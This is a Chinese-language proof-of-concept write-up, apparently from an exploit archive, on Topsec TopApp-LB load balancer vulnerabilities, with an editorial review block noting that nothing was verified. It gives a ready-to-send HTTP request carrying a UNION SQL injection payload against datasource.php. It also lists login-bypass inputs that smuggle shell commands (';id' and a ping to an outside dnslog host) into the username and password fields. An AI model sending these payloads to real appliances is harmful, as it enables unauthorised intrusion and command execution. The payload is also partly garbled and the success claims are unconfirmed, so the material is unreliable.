


# 天融信TopApp-LB 负载均衡系统Sql注入漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Topsec TopAPP-LB
- 本文讨论：datasource.php vid SQLi；另两登录/命令注入变体
- 版本、权限与配置前提：无版本或认证边界
- 资料类型：SQL注入与登录漏洞历史聚合；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 与312同UNION主体重复，新增两个旧漏洞仅链接/用户名密码示例，不能并成一个实体
- 原始出处未知；HTTP载荷尾@。。杂字符，响应截图未视检
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据
- 回连样例可能向外部地址发送网络请求或建立会话；应使用自己的隔离回连服务，DNS/LDAP 到达只能证明相应交互，不能单独证明 RCE

### 待核与来源

- 三个入口的版本/修复关系及外部链接事实待确认
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


1.利用POC:

```http
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: localhost
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded

t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22-- +&gid=0&lmt=10&o=r_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。
```




2.2个历史漏洞仍然可以复现。

https://www.uedbox.com/post/21626/

用户名随意 密码:;id(天融信负载均衡TopApp-LB系统无需密码直接登陆)

https://www.uedbox.com/post/22193/

用户名: ; ping 9928e5.dnslog.info; echo 密码:任意

